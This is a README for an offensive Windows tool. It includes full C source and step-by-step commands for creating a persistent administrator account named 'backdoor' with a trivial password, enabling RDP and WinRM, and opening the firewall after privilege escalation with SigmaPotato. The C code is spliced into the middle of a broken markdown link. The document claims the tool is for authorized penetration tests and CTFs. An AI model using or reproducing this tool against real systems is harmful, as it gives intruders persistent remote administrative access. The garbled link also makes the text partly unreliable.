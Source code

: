 # Backdoor User Creation Tool

A simple, reliable tool for creating backdoor administrator accounts with RDP and WinRM access during penetration tests and CTF competitions.

## Overview

This tool was created to provide a more reliable alternative to SigmaPotato's built-in `--revshell` function, which doesn't always work as expected. Instead, this tool creates a persistent backdoor administrator account that guarantees both WinRM and RDP access to compromised Windows systems.

## Features

- Creates a backdoor user account with a simple, easy-to-remember password
- Adds the user to the Administrators group
- Ensures the user is added to the Remote Desktop Users group
- Adds the user to the Remote Management Users group for WinRM access
- Enables RDP connections on the target system
- Opens the firewall for RDP access
- Configures Terminal Services to start automatically

## Usage with SigmaPotato

1. Compile the backdoor user creation tool:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

2. Upload the executable to the target system (e.g., to C:\Windows\Temp):

```powershell
*Evil-WinRM* PS C:\> upload adduser.exe C:\Windows\Temp\adduser.exe
```

3. Execute with SigmaPotato to run with SYSTEM privileges:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> ./SigmaPotato.exe "cmd /c C:\Windows\Temp\adduser.exe"
```

4. Verify the backdoor user was created successfully:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> net user backdoor
*Evil-WinRM* PS C:\Windows\Temp> net localgroup "Remote Desktop Users"
```

5. Connect using RDP or WinRM:

```bash
# Connect via RDP
xfreerdp /u:backdoor /p:password /v:target-ip

# Connect via WinRM
evil-winrm -i target-ip -u backdoor -p password
```

## SigmaPotato Integration

This tool is designed to complement [SigmaPotato](#include <stdlib.h>
#include <stdio.h>

int main() {
    // Create backdoor user
    system("net user backdoor password /add");
    printf("[+] Backdoor user created\n");
    
    // Add to administrators group
    system("net localgroup Administrators backdoor /add");
    printf("[+] Added to Administrators\n");
    
    // Add to Remote Desktop Users
    system("net localgroup \"Remote Desktop Users\" backdoor /add");
    printf("[+] Added to Remote Desktop Users\n");
    
    // Add to Remote Management Users (for WinRM)
    system("net localgroup \"Remote Management Users\" backdoor /add 2>nul");
    printf("[+] Added to Remote Management Users\n");
    
    // Enable RDP (comprehensive approach)
    system("reg add \"HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f");
    system("reg add \"HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\" /v AllowTSConnections /t REG_DWORD /d 1 /f");
    
    // Open firewall for RDP
    system("netsh advfirewall firewall add rule name=\"RDP\" protocol=TCP dir=in localport=3389 action=allow");
    
    // Start the Terminal Services
    system("sc config TermService start= auto");
    system("net start TermService");
    
    // Enable WinRM if needed
    system("winrm quickconfig -quiet 2>nul");
    
    printf("[+] RDP and WinRM enabled and accessible\n");
    printf("[+] Backdoor setup complete\n");
    return 0;
}), a privilege escalation tool for Windows.

## Warning

This tool is intended for use in authorized penetration tests and CTF competitions only. Use in unauthorized systems is illegal.

## License

MIT
